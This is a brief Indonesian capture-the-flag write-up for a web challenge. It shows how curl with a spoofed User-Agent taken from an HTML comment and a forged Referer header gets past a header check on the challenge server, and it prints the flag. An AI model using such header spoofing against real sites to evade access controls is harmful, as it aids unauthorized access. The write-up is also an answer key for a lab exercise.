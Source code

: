 # Don't Bump Your Head(er) (70 Points)
Try to bypass my security measure on this site! http://165.227.106.113/header.php
# Solved
Cek source nya
```html
Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
<!-- Sup3rS3cr3tAg3nt  -->
```
Kemudian jalankan perintah ini
```
$ curl 'http://165.227.106.113/header.php' \
>   -H 'Connection: keep-alive' \
>   -H 'Cache-Control: max-age=0' \
>   -H 'Upgrade-Insecure-Requests: 1' \
>   -H 'User-Agent: Sup3rS3cr3tAg3nt' \
>   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
>   -H 'Accept-Language: en-US,en;q=0.9,id;q=0.8' \
>   --compressed \
>   --insecure
Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
<!-- Sup3rS3cr3tAg3nt  -->
```
Kita dibutuhkan <b>Referer</b> untuk melanjutkannya
```
$ curl 'http://165.227.106.113/header.php' \
>   -H 'Connection: keep-alive' \
>   -H 'Cache-Control: max-age=0' \
>   -H 'Upgrade-Insecure-Requests: 1' \
>   -H 'User-Agent: Sup3rS3cr3tAg3nt' \
>   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
>   -H 'Referer: awesomesauce.com' \
>   -H 'Accept-Language: en-US,en;q=0.9,id;q=0.8' \
>   --compressed \
>   --insecure
Here is your flag: flag{did_this_m3ss_with_y0ur_h34d}
<!-- Sup3rS3cr3tAg3nt  -->
```
Flag : <b>flag{did_this_m3ss_with_y0ur_h34d}</b>